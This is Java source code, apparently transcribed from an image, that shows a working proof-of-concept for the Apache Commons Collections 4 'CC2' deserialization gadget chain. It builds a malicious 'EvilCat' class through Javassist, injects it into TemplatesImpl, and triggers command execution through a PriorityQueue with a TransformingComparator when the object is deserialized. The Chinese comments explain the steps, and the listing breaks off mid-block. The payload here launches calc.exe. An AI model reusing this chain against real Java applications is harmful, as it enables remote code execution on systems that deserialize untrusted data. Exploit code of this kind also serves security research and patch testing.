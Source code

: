 ```java
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;

public class cc2 {

    public static void main(String[] args) throws Exception {
        Constructor constructor = Class.forName("org.apache.commons.collections4.functors.InvokerTransformer").getDeclaredConstructor(String.class);
        constructor.setAccessible(true);
        InvokerTransformer transformer = (InvokerTransformer) constructor.newInstance("newTransformer");

        TransformingComparator comparator = new TransformingComparator(transformer);
        PriorityQueue queue = new PriorityQueue(1);

        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass cc = pool.makeClass("Cat");
        String cmd = "java.lang.Runtime.getRuntime().exec(\"calc.exe\");";
        // 创建 static 代码块，并插入代码
        cc.makeClassInitializer().insertBefore(cmd);
        String randomClassName = "EvilCat" + System.nanoTime();
        cc.setName(randomClassName);
        cc.setSuperclass(pool.get(AbstractTranslet.class.getName())); //设置父类为AbstractTranslet，避免报错
        // 写入.class 文件
        byte[] classBytes = cc.toBytecode();
        byte[][] targetByteCodes = new byte[][]{classBytes};
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setFieldValue(templates, "_bytecodes", targetByteCodes);
        // 进入 defineTransletClasses() 方法需要的条件
        setFieldValue(templates, "_name", "name");
        setFieldValue(templates, "_class", null);//为了进入defineTransletClasses满足条件

        Object[] queue_array = new Object[]{templates,1};


        queue.add(1);
        queue.add(1);


        Field queue_field = Class.forName("java.util.PriorityQueue").getDeclaredField("queue");
        queue_field.setAccessible(true);
        queue_field.set(queue,queue_array);//让PriorityQueue的queue属性等于TemplatesImpl对象


        Field comparator_field = Class.forName("java.util.PriorityQueue").getDeclaredField("comparator");
        comparator_field.setAccessible(true);
        comparator_field.set(queue,comparator);

        try{
            ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream("./cc2"));
            outputStream.writeObject(queue);
            outputStream.close();

            ObjectInputStream inputStream = new ObjectInputStream(new FileInputStream("./cc2"));
            inputStream.readObject();
        }catch(Exception e){
            e.printStackTrace();
```